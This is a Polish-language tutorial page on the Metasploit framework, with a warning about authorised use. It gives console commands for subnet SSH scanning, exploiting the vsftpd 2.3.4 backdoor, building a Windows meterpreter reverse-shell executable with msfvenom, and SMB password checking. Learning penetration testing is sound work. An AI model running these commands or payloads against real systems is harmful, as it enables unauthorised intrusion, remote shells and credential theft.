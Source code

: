 # Metasploit

Metasploit to jeden z najpopularniejszych frameworków do testowania penetracyjnego. Został stworzony w celu odkrywania, eksploatowania i walidowania luk bezpieczeństwa. Wyposażony jest w setki gotowych eksploitów i różnorodne narzędzia, które pozwalają na kompleksową ocenę bezpieczeństwa systemów i sieci.

{% hint style="warning" %}
Korzystanie z Metasploit bez odpowiednich uprawnień jest nielegalne i nieetyczne. Pamiętaj, że narzędzia te są stworzone w celu poprawy bezpieczeństwa, a nie jego łamania.
{% endhint %}

{% embed url="https://www.metasploit.com" %}
Metasploit
{% endembed %}

{% embed url="https://cdn.comparitech.com/wp-content/uploads/2019/06/Metasploit-Cheat-Sheet.pdf" %}
Ściąga
{% endembed %}

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań narzędzia Metasploit.

### Skanowanie

Metasploit umożliwia skanowanie systemów i sieci w poszukiwaniu potencjalnych luk. Na przykład można zeskanować system za pomocą modułu *auxiliary/scanner*:

```bash
msf > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/ssh/ssh_version) > run
```

### Eksploatacja

Gdy luka zostanie znaleziona, Metasploit umożliwia jej eksploatację. Poniżej pokazujemy jak eksploatować podatność w usłudze FTP za pomocą modułu *exploit*:

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.2
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

### Tworzenie payloadów

Metasploit oferuje możliwość tworzenia payloadów, które można dostarczyć do celu, aby uzyskać dostęp. Można na przykład utworzyć prosty payload dla systemu Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
```

### Przechwytywanie haseł

Metasploit ma wiele modułów do przechwytywania haseł, które mogą być użyte do zdobycia dalszych dostępów. Można użyć np. modułu *smb_login* do sprawdzenia haseł na podatnych maszynach SMB:

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/smb/smb_login) > run
```
